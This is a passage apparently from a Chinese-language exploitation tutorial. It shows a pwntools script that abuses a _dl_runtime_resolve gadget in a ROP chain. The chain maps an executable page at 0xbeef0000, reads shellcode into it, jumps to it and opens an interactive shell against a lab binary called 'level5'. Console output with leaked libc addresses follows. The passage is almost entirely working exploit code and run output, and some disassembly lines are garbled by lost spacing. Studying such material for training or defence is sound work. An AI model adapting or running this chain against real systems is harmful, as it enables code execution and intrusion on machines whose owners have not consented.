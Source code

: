```

#   GADGET
#   0x7ffff7def235 <_dl_runtime_resolve+53>:    mov    r11,rax
#   0x7ffff7def238 <_dl_runtime_resolve+56>:    mov    r9,QWORD PTR [rsp+0x30]
#   0x7ffff7def23d <_dl_runtime_resolve+61>:    mov    r8,QWORD PTR [rsp+0x28]
#   0x7ffff7def242 <_dl_runtime_resolve+66>:    movrdi,QWORD PTR [rsp+0x20]
#   0x7ffff7def247 <_dl_runtime_resolve+71>:    movrsi,QWORD PTR [rsp+0x18]
#   0x7ffff7def24c <_dl_runtime_resolve+76>:    movrdx,QWORD PTR [rsp+0x10]
#   0x7ffff7def251 <_dl_runtime_resolve+81>:    movrcx,QWORD PTR [rsp+0x8]
#   0x7ffff7def256 <_dl_runtime_resolve+86>:    movrax,QWORD PTR [rsp]
#   0x7ffff7def25a <_dl_runtime_resolve+90>:    add    rsp,0x48
#   0x7ffff7def25e <_dl_runtime_resolve+94>:    jmp    r11  

shellcode_addr = 0xbeef0000 

#mmap(rdi=shellcode_addr, rsi=1024, rdx=7, rcx=34, r8=0, r9=0)
payload3 =  "\x00"*136
payload3 += p64(pop_rax_ret) + p64(mmap_addr)
payload3 += p64(linker_addr+0x35) + p64(0) + p64(34) + p64(7) + p64(1024) + p64(shellcode_addr) + p64(0) + p64(0) + p64(0) + p64(0) 

#read(rdi=0, rsi=shellcode_addr, rdx=1024)
payload3 += p64(pop_rax_ret) + p64(plt_read)
payload3 += p64(linker_addr+0x35) + p64(0) + p64(0) + p64(1024) + p64(shellcode_addr) + p64(0) + p64(0) + p64(0) + p64(0) + p64(0)  

payload3 += p64(shellcode_addr) 

print "\n#############sending payload3#############\n"
p.send(payload3)
sleep(1)    

#raw_input()    

p.send(shellcode+"\n")
sleep(1)    

p.interactive()
```

成功pwn后的效果如下：

```
$ python exp8.py 
[+] Started program './level5'
got_write: 0x601000
got_read: 0x601008
plt_read: 0x400440
linker_point: 0x600ff8
got_pop_rax_ret: 0x23950
off_mmap_addr: -0x9770
off_pop_rax_ret: 0xc2670

#############sending payload1#############

write_addr: 0x7f9d39d95fc0
mmap_addr: 0x7f9d39d9f730
pop_rax_ret: 0x7f9d39cd3950

#############sending payload2#############

linker_addr + 0x35: 0x7f9d3a083235

#############sending payload3#############
```